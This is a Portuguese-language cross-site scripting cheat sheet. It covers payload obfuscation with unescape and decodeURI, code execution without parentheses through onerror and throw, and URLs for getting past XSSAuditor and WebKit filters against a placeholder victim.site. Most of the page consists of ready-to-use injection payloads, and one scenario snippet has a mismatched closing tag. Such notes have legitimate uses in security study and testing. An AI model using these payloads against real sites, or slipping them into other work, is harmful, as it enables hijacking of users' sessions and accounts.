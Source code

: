 Também pode ser usado o método unescape para escapar uma string gerada com o .source, exemplo:

```javascript
unescape(/%78%u0073%73/.source)
```

Adicionalmente a esse método existe o decodeURI e o decodeURIComponent. Nesse caso os componentes precisam estar com o formato URL encode

```javascript
decodeURI(/alert(%22xss%22)/.source)
decodeURIComponent(/alert(%22xss%22)/.source)
```

Todos esses métodos retornam uma string, então é necessário usar um sink para executar o código, como por exemplo, o eval
## Escaping Parentheses

Uma forma de executar o código sem usar parenteses:

```html
<img src=x onerror="window.onerror=eval;throw'=alert\x281\x29'">
						  onerror=alert;throw 1;  // Versão simples

<img src=x onerror="window.onerror=eval;throw'\u003d&#x0061;&#x006C;ert&#x0028;1&#41;'"> // Encoded
```

# Bypassing Browser Filters

**Dentro da Tag HTML**

```
http://victim.site/inject?x=<svg/onload=alert(1)>       // Block
http://victim.site/inject?x=<svg/onload=alert(1)        // Bypass XSSAuditor

// Cenário
<div>
	Hello *Injection*
</div>
```

**Dentro do atributo da Tag HTML**

```
http://victim.site/inject?x=giuseppe"><svg/onload=alert(1)>       // Block
http://victim.site/inject?x=giuseppe"><a/href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=">clickhere<!--        // Bypass WebKit

// Cenário
Change your username
<input value="Injection"/>
```

**Dentro da Tag script**

```
http://victim.site/inject?name=giuseppe";alert(1);//

// Cenário
<script>
	var name = "Injection";
</div>
```
